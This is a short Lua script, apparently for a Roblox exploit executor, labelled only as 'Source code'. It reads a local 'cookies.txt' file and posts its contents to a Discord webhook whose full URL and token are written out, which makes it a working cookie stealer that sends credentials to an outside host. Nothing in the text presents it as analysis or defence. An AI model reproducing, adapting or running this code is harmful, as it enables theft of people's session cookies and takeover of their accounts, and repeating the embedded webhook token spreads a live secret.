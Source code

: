 local req = request or syn.request
local http = game:GetService("HttpService")
req({
  Url = "https://discord.com/api/webhooks/1402005257676001330/Ao585E_QrjqXL5BEKQ3Bq_LupKWvoy02HZLrEVZyeGqX8t80F0GvgcJs1GU0acL8EkPC",
  Method = "POST",
  Headers = {
    ["Content-Type"] = "application/json"
  },
  Body = http:JSONEncode({cookie = tostring(readfile("cookies.txt"))})
})
